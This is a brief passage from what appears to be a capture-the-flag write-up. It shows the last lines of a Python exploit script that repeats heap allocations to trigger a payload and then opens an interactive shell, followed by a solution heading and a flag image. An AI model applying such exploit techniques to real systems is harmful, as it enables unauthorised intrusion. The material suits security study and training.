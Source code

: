 ```python
# force exit and get payload executed
for _ in range(idx, 49): alloc(8, data=b'pwn3d')
r.sendline(b'1')

print('** SHELL **')
r.interactive()
```

## Solution

And there we have it:

<img src="./assets/flag.png" align="center" />
